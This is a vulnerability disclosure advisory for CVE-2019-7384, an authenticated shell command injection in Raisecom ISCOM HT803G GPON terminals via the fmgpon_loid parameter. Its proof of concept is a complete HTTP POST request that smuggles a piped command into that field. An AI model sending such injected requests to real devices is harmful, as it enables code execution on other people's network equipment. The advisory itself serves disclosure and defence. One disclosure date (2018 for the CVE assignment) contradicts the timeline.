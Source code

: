 =====================================
Authenticated Shell Command Injection
=====================================

. contents:: Table Of Content

Overview
========

Title:- Authenticated Shell command Injection
Author: Kaustubh G. Padwad
CVE ID: CVE-2019-7384.
Vendor: Raisecom technology co.,LTD
Product: GPON-ONU HT803G-07 (could be more who shares the same codebase)

Potentially vulnerable

 ISCOM HT803G-U
 ISCOM HT803G-W
 ISCOM HT803G-1GE
 ISCOM HT803G


Tested Version: : ISCOMHT803G-U_2.0.0_140521_R4.1.47.002
Severity: High--Critical

Advisory ID
============
KSA-Dev-005


About the Product:
==================

The Raisecom GPON optical network terminal (ONT) series provides a flexible mix of residential access services including high speed data, IPTV, voice and CATV services compliant with the ITU-T G.984 standard. In particular, the Raisecom ONUs are designed for Ethernet data services, voice over IP, IPTV, CATV, wireless router accessing and convenient USB2.0 home network storage connections for various application scenarios, such as residential triple-play service and business connections. The GPON ONT series offer flexible choices in terms of downlink types and numbers, such as, GE/FE auto-adapting Ethernet ports, POTS (FXS) interfaces, RF port and WiFi function compliant with IEEE 802.11b/g/n. All GPON FTTX ONUs offer advanced end-to-end management and monitoring functionality, and the GPON series can be managed under the Raisecom NView platform.


Description: 
============

 An authenticated shell command injection issue has been discovered in  Raisecom ISCOM HT803G-U, HT803G-W, HT803G-1GE, and HT803G GPON products with the firmware version
 ISCOMHT803G-U_2.0.0_140521_R4.1.47.002 or below. The value of the fmgpon_loid parameter is used in a system call
 inside the boa binary. Because there is no user input validation, this leads to authenticated code execution on the device.

Additional_information
======================

The value of fmgpon_loid parameter is parse to system call in implimentation of application code inside boa binary and since their is no user input validation this leads to authenticated code execution on device


Vulnerability Class:
====================
Authenticated Shell Command Injection

Attack Type
===========
 Local


Impact Code execution
=====================
 true

Attack Vectors
==============
 To exploit this vulnerability one must have to visit the crafted page or have to parse the proper crafted request to the device



How to Reproduce: (POC):
========================

POST /boaform/admin/formgponConf HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.1/gpon.asp
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 162

fmgpon_loid=%7c%20ping%20-n%2013%20127%2e0%2e0%2e1%20%7c&fmgpon_loid_password=raisecom&fmgpon_ploam_password=1234567890&apply=Apply+Changes&submit-url=%2Fgpon.asp

Mitigation
==========

This issue is fixed in latest firmware as per vendor.

Disclosure: 
===========
28-NOV-2018 Discoverd the Vulnerability
28-NOV-2018 Reported to vendor 
10-Dec-2018 Recived confirmation from vendor regarding fix
04-JAN-2019 Request for the CVE-ID
04-FEB-2018: CVE assigned 

credits:
========
* Kaustubh Padwad
* Information Security Researcher
* kingkaustubh@me.com
* https://s3curityb3ast.github.io/
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad

